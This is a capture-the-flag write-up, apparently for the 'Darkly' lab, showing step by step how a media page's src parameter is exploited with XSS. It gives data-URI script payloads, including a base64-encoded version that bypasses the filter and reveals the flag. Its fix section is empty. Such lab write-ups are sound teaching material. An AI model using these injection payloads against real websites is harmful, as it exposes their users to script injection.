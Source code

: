 # Breach: XSS advanced


<br>

### >> [Flag file](../flag) <<

<br>


## Explanation:


#### Step 1:

- Go to the media page (by clicking on the NSA logo) (`/?page=media&src=nsa`).

> When you try to edit the `src` parameter, you will notice that the src is rendered in a viewer.<br>
> You can use :
> * keywords (like `nsa`),<br>
> * relative urls (like `images/win.png`),<br>
> * plain data (like `data:text/html,<h1>Where is the flag?<h1>`),<br>
> We see that the src parameter is vulnerable to XSS.


#### Step 2:

Let's try to inject a script in the `src` parameter !

> First, let's try to inject a simple alert script.<br>
> ```url
> /?page=media&src=data:text/html,<script>alert('gimme the flag');</script>
> ```
> 
> It works !<br>
> But there is no flag for some reason.
> Let's try to do the same thing, but with a base64 encoded script.<br>

- Encode the following script in base64:
```html
<script>alert('gimme the flag');</script>
```

- It gives us:
```base64
PHNjcmlwdD5hbGVydCgnZ2ltbWUgdGhlIGZsYWcnKTs8L3NjcmlwdD4=
```


#### Step 3:

- Inject the base64 encoded script in the `src` parameter:
```url
/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnZ2ltbWUgdGhlIGZsYWcnKTs8L3NjcmlwdD4=
```


<br>


## How to fix it:

- ...


---

[[Back to main page](/#darkly)]
